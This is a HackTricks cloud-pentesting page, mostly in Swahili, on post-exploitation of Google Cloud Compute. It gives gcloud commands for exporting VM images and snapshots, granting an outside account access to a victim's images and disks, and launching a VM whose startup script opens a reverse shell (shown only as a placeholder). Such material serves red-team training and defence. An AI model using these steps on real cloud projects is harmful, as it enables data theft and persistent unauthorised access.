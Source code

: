 # GCP - Compute Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Kwa maelezo zaidi kuhusu Compute na VPC (Networking) angalia:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Export & Inspect Images locally

Hii itamruhusu mshambuliaji **kupata data iliyo ndani ya picha zilizopo tayari** au **kuunda picha mpya za VMs zinazofanya kazi** na kupata data zao bila kuwa na ufikiaji wa VM inayofanya kazi.

Inawezekana kusafirisha picha ya VM hadi kwenye bucket kisha kuipakua na kuimount locally kwa amri: 

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Ili kutekeleza hatua hii, mshambuliaji anaweza kuhitaji mamlaka juu ya uhifadhi wa bucket na kwa hakika **mamlaka juu ya cloudbuild** kwani ndiyo **huduma** itakayohitajika kutekeleza usafirishaji.\
Zaidi ya hayo, ili hii ifanye kazi, SA ya codebuild na SA ya compute zinahitaji ruhusa za mamlaka.\
SA ya cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` inahitaji:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

Na SA `<project-id>-compute@developer.gserviceaccount.com` inahitaji:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Usafirishaji & Ukaguzi wa Snapshots & Disks kwa ndani

Haiwezekani kusafirisha moja kwa moja snapshots na disks, lakini inawezekana **kubadilisha snapshot kuwa disk, disk kuwa picha** na kufuata **sehemu ya awali**, kusafirisha picha hiyo ili kuikagua kwa ndani.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Kagua Picha inayounda VM

Kwa lengo la kufikia **data iliyohifadhiwa katika picha** au ndani ya **VM inayotembea** kutoka mahali ambapo mshambuliaji **ameunda picha,** inawezekana kutoa akaunti ya nje ruhusa juu ya picha:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
na kisha unda VM mpya kutoka kwake:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Ikiwa huwezi kutoa ufikiaji wa akaunti yako ya nje kupitia picha, unaweza kuzindua VM ukitumia picha hiyo katika mradi wa mwathirika na **kufanya metadata itekeleze shell ya kinyume** ili kufikia picha hiyo kwa kuongeza param:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

Kwa lengo la kufikia **data iliyohifadhiwa kwenye diski au snapshot, unaweza kubadilisha snapshot kuwa diski, diski kuwa picha na kufuata hatua za awali.**

Au unaweza **kutoa akaunti ya nje ruhusa** juu ya diski (ikiwa hatua ya mwanzo ni snapshot toa ruhusa juu ya snapshot au unda diski kutoka kwake):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Unganisha diski** kwa mfano:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Mount the disk inside the VM:

1.  **SSH ndani ya VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Tambua Disk**: Mara tu ndani ya VM, tambua disk mpya kwa kuorodhesha vifaa vya disk. Kwa kawaida, unaweza kuipata kama `/dev/sdb`, `/dev/sdc`, n.k.
3. **Fanya Format na Mount Disk** (ikiwa ni disk mpya au raw):
*   Unda mahali pa ku-mount:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Mount disk:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Ikiwa huwezi kutoa ufikiaji kwa mradi wa nje kwa snapshot au disk, huenda ukahitaji **kufanya hatua hizi ndani ya instance katika mradi sawa na snapshot/disk**.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
